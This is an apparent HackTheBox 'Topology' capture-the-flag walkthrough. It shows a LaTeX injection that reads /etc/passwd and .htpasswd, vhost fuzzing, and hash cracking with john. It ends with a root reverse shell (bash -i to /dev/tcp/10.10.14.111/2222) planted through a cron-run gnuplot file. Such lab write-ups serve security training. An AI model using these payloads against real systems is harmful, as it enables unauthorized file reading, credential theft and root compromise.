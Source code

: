 # HackTheBox - Topology 

## NMAP

```bash
Nmap scan report for 10.10.11.217
Host is up (0.20s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## PORT (80)

Visiting the webserver, we'll have a static page

<img src="https://i.imgur.com/nYjZ5OX.png"/>

This page lists software projects, out of which Latex Equation Generator 
takes us to `latex.topology.htb

<img src="https://i.imgur.com/5RgHI76.png"/>

<img src="https://i.imgur.com/niyLqk6.png"/>

Adding the domain name in `/etc/hosts` file

<img src="https://i.imgur.com/QPTxnsw.png"/>

<img src="https://i.imgur.com/r0Lg2Zz.png"/>

Putting `\input{/etc/passwd}` will result to an illegal command

<img src="https://i.imgur.com/xleqN1d.png"/>

<img src="https://i.imgur.com/TYGGTRX.png"/>

Most of the commands were blacklisted, we can only read the first line of files with:

```tex
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file

```


<img src="https://i.imgur.com/q1jPyzz.png"/>

We can make it read more lines but the limit was 3-4 lines

```tex
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\read\file to\line
\text{\line}
\read\file to\line
\text{\line}
\read\file to\line
\text{\line}
\closein\file
```

<img src="https://i.imgur.com/3gVYWjf.png"/>
Exceeding 4 lines, we'll get an error
<img src="https://i.imgur.com/opJdPJ9.png"/>

Visiting the site the site with it's root directory `/` will reveal directory listing having `tempfolder`, in that folder we'll find `texput.log`

<img src="https://i.imgur.com/T8senjo.png"/>

<img src="https://i.imgur.com/KrXeZpW.png"/>
So `\write18` is restricted, we cannot use it to execute commands neither read files, we can try fuzzing for vhosts using `wfuzz
`
```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://topology.htb' -H "Host: FUZZ.topology.htb" --hh 6767
```

<img src="https://i.imgur.com/VD6jSN8.png"/>

This finds two more vhosts, `dev` and `stats`, stats site doesn't really have much

<img src="https://i.imgur.com/AXgEtzd.png"/>

Dev site asks for credentials to access the site

<img src="https://i.imgur.com/XFM2XYc.png"/>

Since the latex on the site is using `inline math mode` , we can try using `lsinputlisting` for reading local files and we need to use it with `$` at the beginning and ending of the latex command

```tex
$\lstinputlisting{/etc/passwd}$
```

<img src="https://i.imgur.com/pLdmtMu.png"/>

With this we can access the whole /etc/passwd file and see that the sites are being hosted in `/var/www`

<img src="https://i.imgur.com/U7svMyW.png"/>

We can read `/var/www/dev/.htaccess` file which shows that there's `.htpasswd` file

<img src="https://i.imgur.com/FGVAmvx.png"/>

<img src="https://i.imgur.com/kpzzPFv.png"/>

`vadaisley's` hash can be cracked with john

```bash
 john --wordlist=/usr/share/wordlists/rockyou.txt ./hash.txt
```

<img src="https://i.imgur.com/szYfpCz.png"/>

And now we can login through ssh

<img src="https://i.imgur.com/XMd5SsJ.png"/>

Checking `sudo -l` this user cannot run any commands as root or any user

<img src="https://i.imgur.com/rtRVy7p.png"/>

In `/opt` there's folder `gnuplot` where we have only write access

<img src="https://i.imgur.com/7xZmjDm.png"/>

From `pspy` we see gnuplot being ran as the root user and executing plt files

<img src="https://i.imgur.com/f7olWjh.png"/>

We can create a plt file with a bash reverse shell and move it in  `/opt/gnuplot`

```bash
system "bash -i >& /dev/tcp/10.10.14.111/2222 0>&1"
```

<img src="https://i.imgur.com/XooC51X.png"/>

After few seconds we'll see our plt being executed as root and  receive a connection on our listener with a root shell

<img src="https://i.imgur.com/34ASzjj.png"/>



## References

- https://0day.work/hacking-with-latex/
- https://texdoc.org/serve/latex2e.pdf/0
- https://www1.cmc.edu/pages/faculty/aaksoy/latex/latexthree.html
- https://en.wikibooks.org/wiki/LaTeX/Source_Code_Listings
- http://www.gnuplot.info/docs_4.2/node327.html
